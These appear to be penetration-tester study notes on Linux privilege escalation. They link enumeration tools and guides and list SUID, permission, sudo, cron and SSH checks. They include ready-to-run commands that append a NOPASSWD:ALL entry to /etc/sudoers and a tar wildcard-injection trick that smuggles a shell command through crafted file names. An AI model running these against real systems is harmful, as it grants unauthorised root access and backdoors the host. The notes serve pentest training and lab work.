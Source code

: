 -   [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
-   [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
-`python3 -c 'import crypt; print(crypt.crypt("test", crypt.mksalt(crypt.METHOD_SHA512)))'`
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
- https://payatu.com/guide-linux-privilege-escalation

1. SUID / GUID
	1. `find / -perm +6000  2>/dev/null | grep bin`
	2. `find / -perm /4000 2> /dev/null | grep bin`
	3. `find / -perm /2000 2> /dev/null | grep bin`
	4. [gtfobins (privesc)](https://gtfobins.github.io)
2. file permission misconfigurations
	1. `ls -l /etc/passwd /etc/shadow /etc/sudoers`
3. sudo permissions
	1. `sudo -l`
4. cron 
	1. /etc/crontab
5. .ssh folders in home dirs
	1. `ls -la /home/*`
6. tar wildcards
```bash
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo 'echo "www-data  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > shell.sh
```
7. 